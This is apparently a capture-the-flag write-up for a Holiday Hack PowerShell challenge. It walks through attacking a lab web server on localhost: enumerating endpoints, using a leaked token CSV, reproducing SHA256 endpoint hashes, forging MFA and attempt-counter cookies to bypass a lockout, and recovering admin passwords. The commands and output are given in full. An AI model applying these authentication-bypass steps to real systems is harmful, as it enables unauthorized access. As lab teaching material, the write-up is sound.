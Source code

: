 # OBJECTIVE 10 - PowerShell #
Difficulty: ❄️❄️❄️

## OBJECTIVE : ##
>Team Wombley is developing snow weapons in preparation for conflict, but they've been locked out by their own defenses. Help Piney with regaining access to the weapon operations terminal.
#
## HINTS: ##
<details>
  <summary>Hints provided for Objective 10</summary>
  
>-	GOLD:
>    -  I overheard some of the other elves talking. Even though the endpoints have been redacted, they are still operational. This means that you can probably elevate your access by communicating with them. I suggest working out the hashing scheme to reproduce the redacted endpoints. Luckily one of them is still active and can be tested against. Try hashing the token with SHA256 and see if you can reliably reproduce the endpoint. This might help, pipe the tokens to Get-FileHash -Algorithm SHA256.
>    -  They also mentioned this lazy elf who programmed the security settings in the weapons terminal. He created a fakeout protocol that he dubbed Elf Detection and Response "EDR". The whole system is literally that you set a threshold and after that many attempts, the response is passed through... I can't believe it. He supposedly implemented it wrong so the threshold cookie is highly likely shared between endpoints!

  
</details>

#  

## PROCEDURE : ##
### 🥈 SILVER MEDAL ###
The first few questions are pretty straightforward:
```powershell
1) There is a file in the current directory called 'welcome.txt'. Read the contents of this file
PS /home/user> Get-Content welcome.txt

2) Geez that sounds ominous, I'm sure we can get past the defense mechanisms. 
We should warm up our PowerShell skills. 
How many words are there in the file?
PS /home/user> Get-Content welcome.txt | Measure-Object -word
Lines Words Characters Property
----- ----- ---------- --------
        180

3) There is a server listening for incoming connections on this machine, that must be the weapons terminal. What port is it listening on?
PS /home/user> netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:1225          0.0.0.0:*               LISTEN     
tcp6       0      0 172.17.0.3:35806        52.188.247.151:443      ESTABLISHED

4) You should enumerate that webserver. Communicate with the server using HTTP, what status code do you get?
PS /home/user> Invoke-WebRequest http://localhost:1225
Invoke-WebRequest: Response status code does not indicate success: 401 (UNAUTHORIZED).

5) It looks like defensive measures are in place, it is protected by basic authentication. 
Try authenticating with a standard admin username and password.
Ps/home/user> $cred = Get-Credential
PS /home/user> Invoke-WebRequest http://localhost:1225 -Credential $cred -AllowUnencryptedAuthentication
```
It starts to get more interesting from this point – to answer this next question, we need to create a for loop that cycles through endpoints sequentially and measures the number of words for each one.  The loop must break when it finds an endpoint with exactly 138 words:
```powershell
6) There are too many endpoints here. 
Use a loop to download the contents of each page. What page has 138 words? 
When you find it, communicate with the URL and print the contents to the terminal.
PS /home/user> $i=1                 
PS /home/user> for (;$i -le 15;$i++)    
>> {$Wordcount=(Invoke-WebRequest http://localhost:1225/endpoints/$i -Credential $cred -AllowUnencryptedAuthentication | Measure-Object -word).words                                                                                      
>> Write-Host "Element No: $i has $Wordcount words"
>> If ($Wordcount -eq 138){
>> $Response = Invoke-WebRequest http://localhost:1225/endpoints/$i -Credential $cred -AllowUnencryptedAuthentication 
>> Write-Host $Response.Content   
>> break 
>> } 
>> } 
Element No: 1 has 130 words                                                                                          
Element No: 2 has 127 words
.
.
Element No: 11 has 150 words
Element No: 12 has 123 words
Element No: 13 has 138 words
<html><head><title>MFA token scrambler</title></head><body><p>Yuletide cheer fills the air,<br>    A season of love, of care.<br>    The world is bright, full of light,<br>    As we celebrate this special night.<br>    The tree is trimmed, the stockings hung,<br>    Carols are sung, bells are rung.<br>    Families gather, friends unite,<br>    In the glow of the fire’s light.<br>    The air is filled with joy and peace,<br>    As worries and cares find release.<br>    Yuletide cheer, a gift so dear,<br>    Brings warmth and love to all near.<br>    May we carry it in our hearts,<br>    As the season ends, as it starts.<br>    Yuletide cheer, a time to share,<br>    The love, the joy, the care.<br>    May it guide us through the year,<br>    In every laugh, in every tear.<br>    Yuletide cheer, a beacon bright,<br>    Guides us through the winter night </p><p> Note to self, remember to remove temp csvfile at http://127.0.0.1:1225/token_overview.csv</p></body></html>

7) There seems to be a csv file in the comments of that page.  That could be valuable, read the contents of that csv-file!
PS /home/user> (Invoke-WebRequest -uri http://localhost:1225/token_overview.csv -Credential $cred -AllowUnencryptedAuthentication).content > csvfile.csv
PS /home/user> Get-Content ./csvfile.csv
    
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
# [*] SYSTEMLOG
# [*] Defence mechanisms activated, REDACTING endpoints, starting with sensitive endpoints
# [-] ERROR, memory corruption, not all endpoints have been REDACTED
# [*] Verification endpoint still active
# [*] http://127.0.0.1:1225/tokens/<sha256sum>
# [*] Contact system administrator to unlock panic mode
# [*] Site functionality at minimum to keep weapons active
```

Conveniently the `.csv` file tells us that we can communicate with an endpoint at `http://localhost:1225/tokens/<sha256sum>` and luckily there is still one sha256 value that hasn’t been redacted, so we can use it to call the api endpoint.  

```powershell
8) Luckily the defense mechanisms were faulty! 
There seems to be one api-endpoint that still isn't redacted! Communicate with that endpoint!
PS /home/user> Invoke-WebRequest http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Credential $cred -AllowUnencryptedAuthentication
```

Now things start to get trickier – the api endpoint requires a cookie.  We can set this by creating a `WebRequestSession` and adding a cookie to it:
```powershell
9) It looks like it requires a cookie token, set the cookie and try again.
PS /home/user> $url1 = “http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C”
PS /home/user> $session1 = New-Object Microsoft.PowerShell.Commands.WebRequestSession      
PS /home/user> $cookie1 = New-Object System.Net.Cookie("token", "5f8dd236f862f4507835b0e418907ffc", "/", "127.0.0.1")
PS /home/user> $session1.Cookies.Add($cookie1)
PS /home/user> (Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content
                                              
<h1>Cookie 'mfa_code', use it at <a href='1732384990.947703'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C</a></h1>
```
Ok, so now we’ve got a MFA token and the url path to use it at.  I created a new variable for a new session `$session2` and another variable for the new url to call `$url2`.
```powershell
10) Sweet we got a MFA token! We might be able to get access to the system.
 Validate that token at the endpoint!
PS /home/user> $session2 = New-Object Microsoft.PowerShell.Commands.WebRequestSession      
PS /home/user>  $url2=”http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C”
```

Next we need a regex expression to extract the mfa code from the cookie.  It matches for `href=` and extracts the part following it.  So this command will request the mfa code and extract it from the server response and place it neatly in a variable called `$mfa_token`.

At the same time we also want to add this cookie (along with the previously obtained `token` cookie) to our session before calling `$url2`.  We can use semi-colons `;` to include all the separate powershell commands on a single line and run them all at once and before the MFA token expires:
```powershell
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
(Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content 

<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p> 
```

The response we get is something that looks like a base64 encoded message and we are asked to decode it.  For this we need to follow the same procedure as for question 10 to generate the mfa token, pass it to the server and obtain a response. 

Next we need a regex expression to extract only the text we are interested in that lies between `<p>` and `</p>` and finally we can base64 decode this to complete the objective:
```powershell
11) That looks like base64! Decode it so we can get the final secret! 
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
$Response = (Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content ;
Write-Host $Response;
$base64String = [regex]::match($Response, "<p>(.*?)</p>").Groups[1].Value;
Write-Host $base64String;
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64String));
Write-Host $decodedString

Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction

Hurray! You have thwarted their defenses!
Alabaster can now access their weaponry and put a stop to it.
Once HHC grants your achievement, you can close this terminal.
```
#
### 🥇 GOLD MEDAL ###

For this next part, I decided it would be best to stick to where the hints are trying to guide me.  First let’s try to replicate the token hashes using `Get-Filehash`.

We can achieve this by testing with the last token in the `.csv` file (since we know what it’s correct hash value should be).  The token value needs to be placed in a file and the `Get-FileHash` is called on that file, with `Select-Object` being used to limit the output to just the hash value:
```powershell
PS /home/user>“5f8dd236f862f4507835b0e418907ffc” > token_1
PS /home/user> Get-FileHash ./token_1 -Algorithm SHA256 | Select-Object -ExpandProperty Hash
4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

OK – this looks promising, it looks like we have the correct hash method – so let’s try hashing another token now:
```powershell
PS /home/user> “67c7aef0d5d3e97ad2488babd2f4c749” > token_2
PS /home/user> Get-FileHash ./token_2 -Algorithm SHA256 | Select-Object -ExpandProperty Hash
BAC2F3580B6491CBF26C84F5DCF343D3F48557833C79CF3EFB09F04BE0E31B60
```

Ok let’s try calling an endpoint with this new hash now:
```powershell
PS /home/user> $session2 = New-Object Microsoft.PowerShell.Commands.WebRequestSession                                                                                                                                                         PS /home/user> $url2 = "http://127.0.0.1:1225/mfa_validate/BAC2F3580B6491CBF26C84F5DCF343D3F48557833C79CF3EFB09F04BE0E31B60"                                                                                                    
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
(Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content 
<h1>[*] Setting cookie attempts</h1> 
PS /home/user> $session2.Cookies.GetAllCookies()

Comment    : 
CommentUri : 
HttpOnly   : False
Discard    : False
Domain     : 127.0.0.1
Expired    : False
Expires    : 01/01/0001 00:00:00
Name       : attempts
Path       : /
Port       : 
Secure     : False
TimeStamp  : 12/01/2024 16:47:14
Value      : c25ha2VvaWwK01
Version    : 0 
```

We have a new cookie called `attempts` with a value of `c25ha2VvaWwK01`.  If we base64 decode this value in Cyberchef we find that `c25ha2VvaWwK` decodes to **snakeoil**, so the `01` at the end must be some kind of counter.   In fact, if we make another attempt at resolving this endpoint we see that the cookie’s value changes to `c25ha2VvaWwK02`.  This keeps on going until the 10th attempt, beyond which the cookie’s value stops being incremented.  This is pretty much what I was expecting to see given the hints we are given.

At this point it’s just a matter of importing the data as a `.csv` file, re-initialising the web-session and going through each end-point one by one, calculating its hash, generating a MFA token and calling the endpoint with the correct cookies set.  For the `attempts` cookie we can set this to `c25ha2VvaWwK10` so that all the endpoints are resolved. Microsoft Co-Pilot was a huge help in [creating a script for this](Code/Enumerate_Endpoints.ps1) which I typed into Notepad++ and then simply copied and pasted it into the console.

And this time we get a successful response from one of the endpoints and we don’t even have to base64 decode it!

```powershell
Current Token: 7b7f6891b6b6ab46fe2e85651db8205f :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
Current Token: 45ffb41c4e458d08a8b08beeec2b4652 :   <h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
Current Token: d0e6bfb6a4e6531a0c71225f0a3d908d :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
Current Token: bd7efda0cb3c6d15dd896755003c635c :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
```
 

